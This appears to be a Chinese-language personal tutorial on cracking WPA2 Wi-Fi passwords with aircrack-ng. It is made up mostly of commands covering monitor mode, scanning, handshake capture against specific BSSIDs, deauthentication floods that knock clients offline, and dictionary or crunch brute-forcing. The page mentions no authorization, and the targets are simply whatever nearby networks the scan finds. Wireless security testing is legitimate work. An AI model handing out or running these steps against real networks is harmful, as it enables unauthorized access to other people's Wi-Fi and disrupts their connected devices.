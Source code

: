[Aircrack-ng 官网资料](http://www.aircrack-ng.org/doku.php?id=airmon-ng)

```
# airmon-ng 开启监听模式
airmon-ng start wlan0

# airodump-ng 扫描周围 WiFi 网络
airodump-ng wlan0mon -a

# 04:4F:7A:8F:F3:64  28:FA:A0:68:12:E8 

# airodump-ng 开始抓包
# airodump-ng -c {CH} --bssid {BSSID} -w {要保存握手包的目录} {无线网卡名称}
airodump-ng -c 1 --bssid 04:4F:7A:8F:F3:64 -w ./25 wlan0mon



# 强制重连
# aireplay-ng -0 {发送反认证包的个数} -a {BSSID} -c {强制下线的MAC地址(STATION下面的地址)} {无线网卡名称}
aireplay-ng -0 10 -a 04:4F:7A:8F:F3:64 -c 28:FA:A0:68:12:E8  wlan0mon
```



---

## 准备

linux 系统：

- 安装 kali 系统（自带 aircrack-ng 套件）
- 其他的 linux 系统如 ubuntu 要手动安装 aircrack-ng 套件

```bash
sudo apt install aircrack-ng
```

网卡：不是随便的网卡就行，一定要看看网卡芯片支持 aircrack-ng 与否。

- 虚拟机 vm 之类的：要购买外置的 usb 无线网卡，并安装驱动。
  [usb 无线网卡](https://blog.csdn.net/sandalphon4869/article/details/104214781)
- 双系统可以使用本机网卡，但要看看支持 aircrack-ng 吗，比如我的 Realtek 8821ce 就不支持。


## 原理

破解的原理还是**一个一个试**，之所以要抓握手包，是因为握手包中含有经过加密的密码，我们将握手包抓下来后，可以**在本地跑字典破解**，并且每秒钟可以试几万个密码。

但是如果没有握手包，我们只能手动输密码，那样是很慢的，即使可以用程序来跑，也不能保证路由器没有设置错误次数，有可能会禁止连接，即使没有设置错误次数，但是每次与路由器交互的过程所需要耗费的时间也大于一秒。

aircrack-ng 套件：

核心

- `airmon-ng`：设置网卡的工作模式，
- `airodump-ng`：扫描无线网络抓取数据包
- `aircrack-ng`：可以进行密码的试探，把 cap 数据包转换为 hashcat 文件，用它可以提高十倍以上的破解速度

其他：

- `aireplay-ng`：生成流量和客户端认证

## 监听模式 airmon-ng

先获取 root 权限：

```bash
sudo su
```

### 查看网卡是否支持

```bash
airmon-ng
```

![0.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814074.png)
显示物理设备，接口，驱动，芯片型号。

如果你也安装好了网卡驱动，结果却空空如也，说明你的网卡不支持监听，买个吧。

### 开启监听模式

```bash
airmon-ng start wlan0
```

![1.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814075.png)
记住显示出来的`wlan0mon`

### 查看是否进入监听模式

```bash
iwconfig
```

![2.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814076.png)
可以看到`wlan0mon`的信息：协议、模式、频率

## 扫描网络 airodump-ng

```bash
# 可选: -a 过滤掉隐藏bssid的station。反正不知道bssid也没法用。
airodump-ng wlan0mon -a
```

![3.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814077.png)

第一个列表：无线网络 AP：

- BSSID: 无线 AP 的硬件地址
- PWR: 信号强度，值是负数，越大表示信号越强
- CH: 无线网络信道
- ENC: 加密方式，我们要破解的是 WPA2
- CIPHER：加密算法。一般，TKIP 与 WPA、CCMP 与 WPA2.
- ESSID: 无线网络的名称

第二个列表：无线网络 AP 中的用户设备：

- BSSID: 无线 AP 的硬件地址
- STATION: 用户设备的硬件地址（mac 地址）
- Probe：无线网络 AP的备注。

按键：

- a: 选择不同显示模式。不用动，就默认模式
- o/p: 开启/关闭**颜色标注**。标准有设备的无线网络AP。
- s: 排序规则。我们选择 **sorting by power level**

## 开始抓包 aireplay-ng

```bash
# airodump-ng -c {CH} --bssid {BSSID} -w {包文件路径前缀} {无线网卡名称}
airodump-ng -c 6 --bssid 5C:02:14:A4:38:50 -w /home/kali/Desktop/23 wlan0mon
airodump-ng -c 8 --bssid 50:55:8D:C0:14:5F -w /home/kali/Desktop/cmcc wlan0mon


┌──(root㉿kali)-[/home/kali/Desktop]
└─# ls   
23-01.cap  23-01.csv  23-01.kismet.csv  23-01.kismet.netxml  23-01.log.csv
```

### 强制连接到 wifi 的设备重新连接路由器（可选）

在抓取期间，如果有设备重新链接到这个 wifi，那么才能获取到握手包。

这条作用就是让已经链接上的设备断开重连。

```bash
# aireplay-ng -0 {发送反认证包的个数} -a {BSSID} -c {强制下线的MAC地址(STATION)} {无线网卡名称}
aireplay-ng -0 5 -a 5C:02:14:A4:38:50 -c 46:96:65:7D:6C:FB wlan0mon

# 省去 -c 就是广播。
aireplay-ng -0 5 -a 50:55:8D:C0:14:5F  wlan0mon

# -0: 无限包
aireplay-ng -0 0 -a D4:35:38:BD:4C:99 wlan0mon
```

### 握手成功

![4.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814078.png)
只有当扫描状态后面出现`][ WPA handshake: 22:47:DA:62:2A:F0`后，我们才拿到拿到进行破解的握手包

按 Ctrl-C 结束抓包。

![5.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814079.png)

进到（1）中`{要保存握手包的目录}`下查看握手包，其中"-01.cap"是我们一会儿破解要用到的数据包

## 开始破解密码 aircrack-ng

### 解压字典

如果是 kali 的话，可以使用本地字典：

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

其他的 linux，可以下别的字典：
[github:conwnet/wpa-dictionary](https://github.com/conwnet/wpa-dictionary)

### 本地

命令格式：
`aircrack-ng -w {本地的字典文件} {握手包}`

例如：

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt /home/volume/pro/-01.cap
```

![6.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814080.png)

### crunch 在线

- 知道 ESSID（即 WiFi 的名字，如`360Wifi-A00000`）
  8 位密码：随机数字（`-e`表示 Wifi 的 ESSID，`-w -`表示使用 crunch 即时生成的密码本）

```bash
crunch 8 8 0123456789 | aircrack-ng yourCapName.cap -e yourWifiESSID -w -
```

- 知道 BSSID（即 Mac 地址，如`00:00:00:00:00:00`）
  8 位密码：随机数字（`-b`表示 Wifi 的 BSSID，`-w -`表示使用 crunch 即时生成的密码本）

```bash
crunch 8 8 0123456789 | aircrack-ng yourCapName.cap -b yourWifiBSSID -w -
```

## 退出

使用命令：


```
airmon-ng stop wlan0mon
```



---

## 参考

[kali linux 破解 WiFi 教程- 影像声色](https://www.jianshu.com/p/15f5c51143ec)
[kali 破解 wifi 密码-fzga](https://www.cnblogs.com/zgang/p/11562012.html)

[WLAN traffic capture [2\] - Linux - NetGab - The daily networking madness](http://netgab.net/web/2016/12/23/wlan-traffic-capture-2-linux/)

